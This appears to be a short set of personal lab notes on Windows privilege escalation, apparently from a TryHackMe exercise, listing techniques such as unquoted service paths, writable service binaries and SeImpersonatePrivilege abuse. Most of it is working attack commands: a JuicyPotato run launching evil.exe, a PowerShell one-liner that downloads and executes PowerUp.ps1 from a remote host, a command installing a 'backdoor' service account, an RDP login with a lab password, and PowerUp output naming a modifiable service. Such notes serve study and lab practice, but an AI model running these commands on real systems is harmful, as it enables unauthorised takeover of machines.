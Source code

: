 -   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Unquoted servicepath
- writable service executable
- SeImpersonatePrivilege permissions
	- load incognito
	- impersonate_token
- scheduler --> programfiles x86\\systemscheduler
	- wscheduler.exe
	- check the events directory for frequently run processes 
- [printSpoofer](https://github.com/itm4n/PrintSpoofer)
	- escalate `SeImpersonatePrivilege`
- `whoami /priv`
- `JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\evil.exe" -t \*`
- `IEX(New-Object Net.WebClient).DownloadString('http://10.10.135.179:8001/PowerUp.ps1')`
- `Install-ServiceBinary -Name AdvancedSystemCareService9 -UserName backdoor -Password Password123!`
- `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'TryH4ckM3!'`

```
ServiceName                     : AdvancedSystemCareService9             
Path                            : C:\Program Files (x86)\IObit\Advanced S
ystemCare\ASCService.exe                                                 
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced S
ystemCare\ASCService.exe                                                 
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadCont
rol, ReadData/ListDirectory...}                                          
ModifiableFileIdentityReference : STEELMOUNTAIN\bill                     
StartName                       : LocalSystem                            
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSy
stemCareService9'                                                        
CanRestart                      : True
```